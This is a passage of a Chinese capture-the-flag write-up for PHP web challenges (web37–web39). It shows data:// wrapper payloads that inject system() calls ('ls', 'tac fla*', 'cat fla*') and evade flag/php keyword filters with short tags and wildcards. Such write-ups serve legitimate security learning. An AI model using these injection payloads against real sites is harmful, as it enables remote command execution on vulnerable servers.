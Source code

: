 ![image-20220316202435082](https://img-blog.csdnimg.cn/img_convert/99948dc67e4db5ae36d1208366c34424.png)

这道题跟上面的也是一样，只不过因为又过滤了数字，所以把0改成字母就可！

# web37

![image-20220316202701784](https://img-blog.csdnimg.cn/img_convert/f353f8310f2cd8d12c9a1bda85e2ed5b.png)

这道题没有过滤太多东西，就过滤了个flag

```
/?c=data://text/plain,<?php system("tac fla?.php");?>
/?c=data:text/plain,<?=system("tac fla*");?>
```

上面两种绕过方式就是举例，这道题的绕过方式很多。

![image-20220316203257934](https://img-blog.csdnimg.cn/img_convert/f2fa7873ccd0a8162a365ff3711d5fdf.png)

# web38

![image-20220316203532744](https://img-blog.csdnimg.cn/img_convert/0f723d6cb99d899ad22d605e5590a019.png)

发现过滤了flag，php，file，文件包含漏洞，输出flag

考虑到使用data协议，这道题因为过滤了php，所以要使用短标签

对于正常标签就是`<?php`，而短标签就是`<?`

```
/?c=data://text/plain,<?=system("ls");
```

![image-20220316203905163](https://img-blog.csdnimg.cn/img_convert/94e1f6a736c2e939cee8bb2716144f58.png)

```
/?c=data://text/plain,<?=system("tac fla*.p*p");
```

![image-20220316204110876](https://img-blog.csdnimg.cn/img_convert/db9d1e5814df930c26041aa1306c1b64.png)

这道题也可以直接

```
?c=data://text/plain,<?= system("cat fla*");?>
```

同样可以得到flag!

# web39

![image-20220316204532318](https://img-blog.csdnimg.cn/img_convert/013e131d271ecbc26bb2e6c7b1b658c6.png)

下面这是官方给的hint![image-20220316204558730](https://img-blog.csdnimg.cn/img_convert/e2e15d9ecaed7a149f3723250963d984.png)
